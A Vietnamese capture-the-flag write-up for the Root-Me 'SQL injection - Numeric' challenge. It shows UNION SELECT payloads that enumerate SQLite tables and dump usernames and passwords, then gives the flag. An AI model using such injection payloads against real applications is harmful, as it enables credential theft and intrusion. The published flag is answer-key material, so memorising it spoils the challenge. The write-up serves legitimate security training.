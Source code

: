 # WRITE UP

**Challenge:** [SQL injection - Numeric](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Numeric)

![Shape Description automatically generated with low confidence](./media/image1.png){width="6.5in" height="1.5520833333333333in"}

Thử bypass qua login thì không thể thực hiện được.

![Shape Description automatically generated with medium confidence](./media/image2.png){width="6.5in" height="1.7027777777777777in"}

Kiểm tra các thẻ khác trong Home vì nhận thấy điều đặc biệt rằng, 3 link này đều dẫn đến **action=news&news_id=\[x\].** Thử xóa id của news thì phát hiện database bị lỗi:

![Graphical user interface, text, application Description automatically generated](./media/image3.png){width="6.5in" height="2.359027777777778in"}

Database của server là SQLite3. Tương tự bài SQL Injection -- String, ta thực hiện inject nó để tìm ra admin. Ta dò được số cột là 3:

![Graphical user interface, text, application Description automatically generated](./media/image4.png){width="6.5in" height="1.7777777777777777in"}

Payload: [challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 union select 1,1,1 from sqlite_master](http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1%20union%20select%201,1,1%20from%20sqlite_master)

Ta dò được có 2 bảng users và news:

![Graphical user interface, text, application Description automatically generated](./media/image5.png){width="6.5in" height="1.8888888888888888in"}

Payload: [challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 union select 1,1,name from sqlite_master](http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1%20union%20select%201,1,name%20from%20sqlite_master)

Tương tự bài String, ta show ra được username và password của users:

![Graphical user interface, text, application Description automatically generated](./media/image6.png){width="6.5in" height="2.3in"}

Payload: [challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 union select 1,username,password from users](http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1%20union%20select%201,username,password%20from%20users)

Login vào thành công:

![Graphical user interface, text, application Description automatically generated](./media/image7.png){width="6.5in" height="1.957638888888889in"}

**Flag:** aTlkJYLjcbLmue3
